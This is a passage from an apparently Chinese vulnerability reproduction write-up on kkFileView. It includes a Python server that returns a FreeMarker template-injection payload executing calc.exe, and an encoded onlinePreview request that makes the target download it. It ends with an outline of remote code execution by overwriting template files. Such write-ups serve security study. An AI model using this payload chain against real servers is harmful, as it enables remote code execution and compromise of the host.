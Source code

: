跳过下载的功能是 ***2021年12月17日*** 添加的

```php
https://gitee.com/kekingcn/file-online-preview/commit/20f328906caf9b6a840746150bd0d7cdb1a7187c
```

那么就在这里找上一次提交的代码进行下载

*<https://gitee.com/kekingcn/file-online-preview/tree/4d1e2eb9c633c95b28ee670ccc74d6a69a41a2a9>*

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-f7f569b1fdce21746d681d341f8f325be7a4782f.png)

可以看到是没有跳过下载的逻辑的。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-35f2a973fbf01f58f421ed94d5c3e6743fc3a7f8.png)

复现
--

用 ***Python*** 实现一个简单的服务器

```java
from http.server import HTTPServer, BaseHTTPRequestHandler

host = ('0.0.0.0', 8888)

class CustomizeHttpServer(BaseHTTPRequestHandler):

    def do_POST(self):
        self.do_GET()

    def do_GET(self):
        self.wfile.write(b'<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}')

if __name__ == '__main__':
    server = HTTPServer(host, CustomizeHttpServer)
    print("Starting server, listen at: %s:%s" % host)
    server.serve_forever()
```

发起攻击

```php
/onlinePreview?url=aHR0cDovLzEyNy4wLjAuMTo4ODg4P2Z1bGxmaWxlbmFtZT1hLnhtbA==
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-ed7d88b0300a6ae59c4fff1a1758207d7295fc8d.png)

可以看到文件被下载了

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/01/attach-e20f395cfc057bd00193704fb29e581476b0307a.png)

覆盖模板文件RCE (假想)
--------------

如果使用 ***war*** 的方式部署或者像我一样直接跑起来的项目，可以通过覆盖掉模板文件进行 ***RCE***。

